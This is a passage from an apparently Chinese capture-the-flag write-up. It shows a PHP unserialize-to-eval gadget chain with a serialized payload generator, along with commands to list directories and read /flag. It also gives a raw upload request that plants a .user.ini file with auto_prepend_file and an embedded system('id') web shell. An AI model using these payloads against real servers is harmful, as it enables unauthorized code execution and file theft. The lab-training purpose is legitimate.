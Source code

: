 ```php
        echo "hello";  
    }  
}  
  
class cup {  
    private $data;  
    function cp() {  
        eval($this->data);  
    }  
}  
  
unserialize($_GET['d']);
```

构造反序列化链
```php
<?php  
class ping {  
    protected $xiang;  
    function __construct() {  
        $this->xiang = new cup(); }  
}  
class cup {  
    private $data='phpinfo();';  
}  
$a=new ping();  
echo urlencode(serialize($a));
```

常用方法：
`print_r(scandir("."));`打印文件夹目录
`echo file_get_contents("/flag");`输出文件
`phpinfo()`测试

# 龙池古庙

```hint
郑隐：老夫在此恭候少侠好久了。少侠可知.user.ini的武功秘籍？此文件可用于PHP配置，掌握其内奥，能在Web开发中大展神威，务须细心体悟。
```

利用brup修改上传的包
```
POST / HTTP/1.1
Host: 59.62.61.30:45727
Content-Length: 78158
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://59.62.61.30:45727
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysEFd14FeBFYsqV0l
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://59.62.61.30:45727/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarysEFd14FeBFYsqV0l
Content-Disposition: form-data; name="file"; filename=".user.ini
Content-Type: image/jpeg

auto_prepend_file=.user.ini
; <?php system('id');?>
------WebKitFormBoundarysEFd14FeBFYsqV0l
```